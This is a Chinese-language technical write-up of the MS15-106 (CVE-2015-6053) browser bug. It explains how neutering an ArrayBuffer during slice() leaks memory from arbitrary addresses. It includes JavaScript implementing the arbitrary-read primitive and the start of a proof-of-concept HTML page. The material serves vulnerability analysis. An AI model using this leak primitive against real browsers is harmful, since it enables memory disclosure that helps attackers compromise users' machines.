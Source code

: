![p8](http://drops.javaweb.org/uploads/images/ec2f89758a107da9bd93515d09e9e40f17fe6b4e.jpg)

函数memcpy()的参数具体如下：

*   dst参数指向新的ArrayBuffer对象的ptr_to_raw_data字段(新ArrayBuffer对象会被ArrayBuffer.slice()函数返回)
*   src参数为ptr_to_raw_data + start_argument
*   size参数为end_argument – start_argument

问题出现在src参数上，由于ArrayBuffer被结扎，src参数应该计算成ptr_to_raw_data + start_argument = 0 + start_argument，这导致在调用memcpy(new_arraybuffer, arbitrary_src, arbitrary_size)的时候，我们可以泄露浏览器进程的任意地址内存。

同时要注意，start_argument和end_argument会被和原来的ArrayBuffer里的byteLength对比检查，也就是说，要泄露任意地址X的内容，被攻击者操纵的ArrayBuffer的byteLength数值必须必X大。比如，想要在地址0x1a1b2000处读取4bytes内容的话，必须这样做：

```
var address = 0x1a1b2000;

/* Size of the ArrayBuffer must be greater than the 'start' and 'end' arguments for slice() */
var arrbuf = new ArrayBuffer(address + 0x10);

/* The 'Trigger' object implements the valueOf() method, which neuters arrbuf in the middle of the slice() operation, and finally returns the end offset (address+4). */
var trigger = new Trigger(address + 4, arrbuf);

/* Trigger the vulnerability. Note that the 2nd argument isn't a primitive value but an object. slice() will return a new ArrayBuffer object containing a copy of the 4 bytes stored @ address 0x1a1b2000 */
var kslice = arrbuf.slice(address, trigger);

/* Finally, create a DataView on the new ArrayBuffer object and read a dword from it. Bingo! */
var leaked_dword= new DataView(kslice).getUint32(0, true);

```

0x03 Proof of Concept
=====

我们来看POC，这是index.html的代码：

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>MS15-106 PoC (CVE-2015-6053)</title>
    <script type="text/javascript" src="exploit.js"></script>
</head>
<body>
    <h1>MS15-106 PoC (CVE-2015-6053)</h1>

    <div>

        <div>
            <fieldset>
                <button id="workersButton">Transfer/neuter ArrayBuffer</button>
                <div id="outputBoxWorkers"></div>
            </fieldset>
        </div>
    </div>

</body>
</html>

```
